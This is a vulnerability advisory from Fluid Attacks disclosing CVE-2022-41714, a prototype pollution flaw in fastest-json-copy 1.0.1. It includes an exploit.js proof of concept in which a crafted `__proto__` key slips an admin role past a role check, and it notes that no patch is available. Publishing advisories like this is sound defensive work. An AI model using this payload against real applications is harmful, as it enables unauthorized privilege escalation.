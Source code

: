 ```yaml
---
slug: advisories/guetta/
title: fastest-json-copy 1.0.1 - Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: guetta
product: fastest-json-copy 1.0.1 - Prototype Pollution
date: 2022-10-19 13:30 COT
cveid: CVE-2022-41714
severity: 7.3
description: fastest-json-copy 1.0.1    -    Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, Fastest Json Copy, Prototype Pollution
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | fastest-json-copy 1.0.1 - Prototype Pollution                      |
| **Code name**         | [Guetta](https://en.wikipedia.org/wiki/David_Guetta)               |
| **Product**           | fastest-json-copy                                                  |
| **Affected versions** | Version 1.0.1                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-19                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41714)                                             |

## Description

Version 1.0.1 of fastest-json-copy allows an external attacker to edit
or add new properties to an object. This is possible because the
application does not correctly validate the incoming JSON keys, thus
allowing the `__proto__` property to be edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when
a third party manages to modify the `__proto__` of an object. JavaScript
first checks if such a method/attribute exists in the object. If so,
then it calls it. If not, it looks in the object's prototype. If the
method/attribute is also not in the object's prototype, then the
property is said to be undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property
into an object, he will succeed in injecting or editing its properties.

## Exploitation

### exploit.js

```js
const copy = require('fastest-json-copy');

let admin = {name: "admin", role:"admin"};
let user  = {name: "user" , role:"user"};

let normal_user_request    = JSON.parse('{"name":"user","role":"admin"}');
let malicious_user_request = JSON.parse('{"name":"user","__proto__":{"role":"admin"}}');

const create_user = (new_user) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    if(new_user?.role && new_user?.role.toLowerCase() === "admin") {
        throw "Unauthorized Action";
    }
    user = copy.copy(new_user);
    console.log(user);
}

try {
    create_user(normal_user_request);
} catch (error) {
    console.log(error);
}
finally {
    create_user(malicious_user_request);
}
```

## Evidence of exploitation

![Prototype-Pollution](https://user-images.githubusercontent.com/51862990/196764953-0bfa69f8-8ccc-4b74-8ae1-4fbad55efd48.png)

## Our security policy

We have reserved the CVE-2022-41714 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: fastest-json-copy 1.0.1

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/streamich/fastest-json-copy>

## Timeline

<time-lapse
  discovered="2022-10-06"
  contacted="2022-10-06"
  replied="2022-10-06"
  confirmed=""
  patched=""
  disclosure="2022-10-19">
</time-lapse>
